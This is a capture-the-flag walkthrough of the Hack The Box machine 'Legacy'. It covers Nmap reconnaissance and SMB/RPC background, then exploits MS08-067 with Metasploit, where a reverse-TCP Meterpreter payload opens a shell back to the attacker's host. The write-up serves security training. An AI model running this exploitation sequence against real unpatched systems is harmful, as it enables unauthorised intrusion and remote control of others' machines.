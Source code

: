```yaml
---
title: "Legacy Walkthrough: Exploiting vulnerable Server Service"
date: 2024-10-18 12:00:00 +0530
categories: [Capture the Flags, Windows]
tags: [HTB,smb]   
description: "Walkthrough of HTB's Legacy machine"
---
```


*Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.*

## Recon

I started with a standard Nmap scan to discover open ports:
```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.4 --max-retries 0 
SYN Stealth Scan Timing: About 15.49% done; ETC: 04:22 (0:00:33 remaining)
Nmap scan report for 10.10.10.4
Host is up (0.072s latency).
Not shown: 61228 closed tcp ports (reset), 4304 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
### Nmap Flags:
- **`-sS`**: Performs a SYN scan (stealth scan).
- **`-n`**: Disables DNS resolution to speed up scanning.
- **`--disable-arp-ping`**: Skips ARP ping.
- **`-p`**: Scans all of the ports.
- **`-A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning

### key Observations

- Port 139/445: SMB service (Windows shares).

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 139,445 10.10.10.4 --max-retries 0
PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (96%), Microsoft Windows XP SP3 (96%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows 2003 SP2 (93%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (93%), Microsoft Windows XP SP2 or SP3, or Windows Embedded Standard 2009 (93%), Microsoft Windows XP SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-10-23T08:15:17+03:00
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b2:02 (VMware)
|_clock-skew: mean: 5d00h15m42s, deviation: 2h07m16s, median: 4d22h45m42s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
The findings strongly suggest that this machine is running Windows XP SP2/SP3

To Identify the SMB version and possible vulnerabilities for the smb

```bash
sudo nmap --script=vuln -p 139,445 10.10.10.4 -n -Pn                                         
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-18 01:00 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.081s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```

It looks like the SMB is vulnerable to EternalBlue and NETAPI exploit.

---
### Background

If SMB is enabled on a machine, the Server Service (also know as LanmanServer) will listen for incoming SMB Conncetions on ports 139 and 445. The server service is responsible for handling requests that come in over these ports.

SMB also provides a communication channel for RPC (Remote Procedure Call). The Server service listens for RPC requests over the same ports (139/445) and forwards those requests to the appropriate service, like SAM (Security Account Manager) or LSA (Local Security Authority), using named pipes (e.g., \pipe\samr for SAM-related operations).

**SMB** = Pipeline/Channel: SMB establishes the communication channel between the client and server. It handles connection setup, session management, and access control.

**RPC** = Payload/Message: RPC encapsulates the commands or operations that need to be executed remotely. The client sends RPC calls to the server over the SMB connection, and the server sends back the RPC responses through the same SMB connection.

- In the case of CVE-2008-4250 (MS08-067), the attacker sends a specially crafted RPC request over SMB (usually on port 445).
- The Server service, which is listening on port 445, processes the incoming RPC request.
- The vulnerability in the Server service's RPC handling code is exploited by the malicious RPC request, causing a buffer overflow, allowing the attacker to execute arbitrary code with SYSTEM privileges.



---

### Exploiting through MetaSploit
As we are aware of that the machine is vulnerable to MS08-067, searching for any available exploits using search in the msfconsole
![msfconsole](assets/img/Legacy/msf_search.png)
Using the same exploit to pwn the machine

```bash
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
```

Configuring the target IP and leaving the OS flavour to metasploit to figure out

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.16.10
LHOST => 10.10.16.10
```

Running the exploit to get SYSTEM privileges, as we are exploiting the system service
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.16.10:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 2 opened (10.10.16.10:4444 -> 10.10.10.4:1033) at 2024-10-17 23:24:45 -0400

meterpreter >
```


## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References

[MS08_067_Walkthrough](https://github.com/cjjduck/ms08_067_walkthrough)

[Exploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)